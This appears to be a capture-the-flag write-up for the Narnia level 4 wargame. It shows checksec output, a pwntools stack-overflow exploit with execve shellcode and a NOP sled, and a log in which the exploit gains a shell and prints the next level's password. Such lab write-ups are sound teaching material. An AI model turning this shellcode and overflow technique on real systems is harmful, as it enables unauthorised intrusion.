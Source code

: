 
```bash
narnia4@narnia:/tmp/cezarPPP$ checksec /narnia/narnia4
[*] '/narnia/narnia4'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I learned how to use pwntools.
I determined the offset using cyclic() and cyclic_find() from pwntools.

```python
#!/usr/bin/python

from pwn import *

context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'

shellcode = '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
offset = 264
nop_len = 256 - len(shellcode)

ret = 0xffffd5e5 #random address of the stack got when using gdb

for i in range(0, 10):
    payload = nop_len*'\x90' + shellcode + 'AAAAAAAA' + p32(ret)
    # alternatively payload = nop_len*'\x90' + shellcode + p32(ret)*5
    p = process(['/narnia/narnia4', payload])
    ret = ret - 64
    p.interactive()

```

```bash
narnia4@narnia:/tmp/cezarPPP$ ./exp.py 
[+] Starting local process '/narnia/narnia4': pid 4880
[*] Switching to interactive mode
[*] Process '/narnia/narnia4' stopped with exit code -11 (SIGSEGV) (pid 4880)
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
[+] Starting local process '/narnia/narnia4': pid 4885
[*] Switching to interactive mode
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
faimahchiy
```
